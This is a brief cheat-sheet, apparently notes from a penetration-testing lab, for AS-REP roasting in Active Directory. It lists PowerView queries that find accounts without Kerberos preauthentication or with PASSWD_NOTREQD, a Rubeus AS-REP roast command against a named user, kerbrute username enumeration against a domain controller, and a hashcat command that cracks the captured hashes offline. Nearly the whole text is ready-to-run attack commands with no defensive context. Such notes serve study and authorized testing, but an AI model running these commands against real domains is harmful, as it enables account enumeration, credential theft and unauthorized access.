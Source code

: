 
Finding Accounts with no preauth required via powerview

```powershell-session
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```

Check for passwd_notreqd
```powershell-session
Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol
```

Attack with rubeus
```powershell-session
.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
```

Attack with kerbrute
```shell-session
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt
```

Crack Hash from attack offline
```shell-session
hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt
```
